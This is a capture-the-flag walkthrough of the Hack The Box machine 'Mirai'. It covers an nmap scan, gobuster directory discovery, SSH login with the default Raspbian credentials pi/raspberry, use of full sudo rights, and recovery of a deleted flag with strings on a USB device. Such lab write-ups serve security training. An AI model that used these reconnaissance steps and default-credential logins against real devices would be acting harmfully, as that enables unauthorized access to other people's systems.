 <center><h1>Mirai</h1></center>
<br>
<center><h3>Summary</h3></center>
<br><br>
First we start with an nmap scan.
```
# nmap -sC -sV -T4 -p- 10.10.10.48
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-17 20:17 EDT
Nmap scan report for 10.10.10.48
Host is up (0.056s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey:
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp    open  domain  dnsmasq 2.76
| dns-nsid:
|_  bind.version: dnsmasq-2.76
80/tcp    open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
1315/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
32400/tcp open  http    Plex Media Server httpd
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
|_http-title: Unauthorized
32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.24 seconds
```
So there are a few ports open but we want port 80. Initially when you navigate to <b>http://10.10.10.48</b> you get nothing but a blank screen. Seeing this, I decided to run a gobuster
```
# gobuster dir -u http://10.10.10.48 -w /usr/share/wordlists/d
irbuster/directory-list-2.3-small.txt -x php,txt -t 20
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.48
[+] Threads:        20
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,php
[+] Timeout:        10s
===============================================================
2019/09/17 20:25:10 Starting gobuster
===============================================================
/admin (Status: 301)
```
Only found one directory. If you go to that page you will be greated with the Pi-Hole Admin Console. This is basically an Ad Blocker running on a Raspberry Pi

<center><img src="/htb/mirai/dashboard.png"></center>
<br>
I didn't find much more on the webpage. Now my next idea was to try SSH. I no knew that is was running Raspian which has default credentials of user <b>pi</b> pass <b>raspberry</b>.
```
# ssh pi@10.10.10.48
pi@10.10.10.48's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Sep 18 00:37:37 2019 from 10.10.14.21

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $
```
And we are in. We can grab the user flag now located at <b>/home/pi/Desktop</b>
```
pi@raspberrypi:~ $ ls Desktop/
Plex  user.txt
```
Now for root. If we run <b>sudo -l</b> we can see that we have full sudo privileges. Problem is when we try to read the root flag we get this message
```
pi@raspberrypi:~ $ sudo cat /root/root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```
Looks like we are not done just yet. So the message hints at a USB. If you run <b>lsblk</b> you will see that there is a usb mount at <b>/media/usbstick</b>
```
# lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda      8:0    0   10G  0 disk
├─sda1   8:1    0  1.3G  0 part /lib/live/mount/persistence/sda1
└─sda2   8:2    0  8.7G  0 part /lib/live/mount/persistence/sda2
sdb      8:16   0   10M  0 disk /media/usbstick
sr0     11:0    1 1024M  0 rom  
loop0    7:0    0  1.2G  1 loop /lib/live/mount/rootfs/filesystem.squashfs
```
If you <b>cd</b> in to directory you will see a <b>damnit.txt</b> file. If you read that you will get another message that the root flag was accidentally deleted.
```
# cat damnit.txt
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```
The message basically tells us that the root flag is still on the USB just hidden. To find the root flag just use the <b>strings</b> command against <b>/dev/sdb</b> since thats the actual USB
```
# sudo strings /dev/sdb
<output omitted>
root.txt
damnit.txt
>r &
3d3e483143ff12e**************
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```
<br><br><br>
